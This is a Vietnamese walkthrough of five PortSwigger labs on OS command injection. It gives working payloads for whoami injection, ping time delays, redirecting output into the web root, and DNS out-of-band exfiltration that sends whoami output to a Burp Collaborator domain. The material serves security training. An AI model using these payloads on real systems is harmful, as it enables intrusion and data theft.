# OS Command Injection

## Lab: OS command injection, simple case

### Link: [https://portswigger.net/web-security/os-command-injection/lab-simple](https://portswigger.net/web-security/os-command-injection/lab-simple)



Đề cho gợi ý rằng có lỗi OS command injection tại product stock checker và yêu cầu chạy câu lệnh `whoami`

Ấn vào đại một product ta thấy đây là phần check stock



Dựa vào địa điểm ta chọn sau khi nhấn check stock sẽ trả về số units còn lại

Ta có thể đoán được là server sẽ chạy lệnh shell để tìm số stock còn lại dựa trên giá trị ta chọn. Inspect web, ta thấy value tương ứng là `1, 2, 3` giá trị này sẽ gửi đi với biến `storeId` sau khi ta nhấn check



Sửa giá trị của London thành `1&whoami` và chọn `London` để checkstock



Kết quả



Như vậy là ta đã thành công

## Lab: Blind OS command injection with time delays

### Link: [https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)



Đề gợi ý rằng có lỗi tại feedback function, và yêu cầu chúng ta exploit một lệnh gây độ trễ 10s

Vào trang web, ta thấy có phần submit feedback, click vào thì ta được giao diện như sau



Vậy là 1 trong 4 input sẽ được server dùng làm input lệnh shell gây lỗi, vậy ta cần thử từng input 1

Nhập input như trên, ấn submit và bắt gói tin bằng BurpSuite, sử dụng chức năng repeater.



Ta thử từng input bằng cách thêm `||ping+-c+10+127.0.0.1||` vào sau 

Ở đây lệnh `ping -c 10 127.0.0.1` sẽ là lệnh tạo ra độ trễ 10s mà ta dùng



Sau khi thử thì mình tìm được trường email chính là vị trí gây ra lỗi

Sau khi tốn 10s chạy lệnh thì respone trả về là 200OK



Như vậy là ta đã exploit thành công, refresh lại trang



## Lab: Blind OS command injection with output redirection

### Link: [https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)



Đề yêu cầu exploit câu lệnh `whoami`, tuy nhiên kết quả sẽ không còn trả về trong respone, mà ta phải ghi vào một file tại địa chỉ `/var/www/images`, sau đó truy suất tới file đó để xem kết quả, lỗ hổng vẫn nằm ở hàm feedback như lab trước

Làm tương tự như lab trước, submit đại một feedback và bắt gói tin bằng burpsuite



Lần này payload trong phần email của chúng ta là `||whoami>/var/www/images/whoami.txt||`

Lệnh `whoami>/var/www/images/whoami.txt` sẽ ghi kết quả của câu lệnh `whoami` vào file `whoami.txt` nằm tại đường dẫn `/var/www/images/`, nơi chúng ta được phép ghi.


Chúng ta đã thực thi câu lệnh thành công, tiếp theo là truy suất đến file `whoami.txt` để xem kết quả.

Vì đường dẫn có thư mục images nên mình nghĩ nó liên quan đến load ảnh trên trang web



Kiểm tra 1 ảnh trên web, ta thấy các ảnh được truy suất bằng `/image?filename=`



Ta refresh trang web và dùng BurpSuite bắt 1 request tới các ảnh, sửa `filename=whoami.txt`



Kết quả trả về output của câu lệnh `whoami` là `peter-AfyGXd`



Exploit thành công

## Lab: Blind OS command injection with out-of-band interaction

### Link: [https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)



Vẫn là lỗ hổng cũ giống các bài trước, lần này đề yêu cầu chúng ta gọi một truy vấn DNS tới Burp Collaborator. Yêu cầu cần truy vấn DNS tới chính xác địa chỉ `burpcollaborator.net`

Vẫn tương tự các bước cũ, submit một feedback và dùng BurpSuite để bắt gói tin get, payload lần này của chúng ta là `||nslookup+burpcollaborator.net||`



Với lệnh `nslookup burpcollaborator.net` sẽ gọi truy vấn dns tới địa chỉ `burpcollaborator.net`



Exploit thành công

## Lab: Blind OS command injection with out-of-band data exfiltration

### Link: [https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)



Vẫn là lỗ hổng giống các bài trước nên mình không nói lại nữa, lần này chúng ta sẽ gọi truy vấn dns, tuy nhiên nâng cao hơn bài trước là truy vấn này sẽ đem theo kết quả của câu lệnh `whoami`

Để làm bài này, ta cần setup BurpCollaborator, vào `Burp->Burp Collaborator client -> Copy to clipboard` để lấy địa chỉ `BurpCollaborator` vừa tạo

Địa chỉ lúc mình làm là: `2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net`

Bắt gói tin sumitfeedback và thêm payload của email thành  ```||nslookup+`whoami`. 2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net||```



Giả sử câu lệnh `whoami` có ouput là `user`

Lúc này lệnh ```nslockup `whoami`. 2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net``` sẽ gọi truy vấn dns tới tên miền `2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net` để tìm địa chỉ ip cho tên miền `user. 2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net` từ đó ta có thể biết được ouput của câu lệnh `whoami`



Các truy vấn dns được gửi đến `2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net`, ta có thể thấy kết quả câu lệnh `whoami` là `peter-A0rR9U`



Submit `peter-A0rR9U` và ta đã exploit thành công
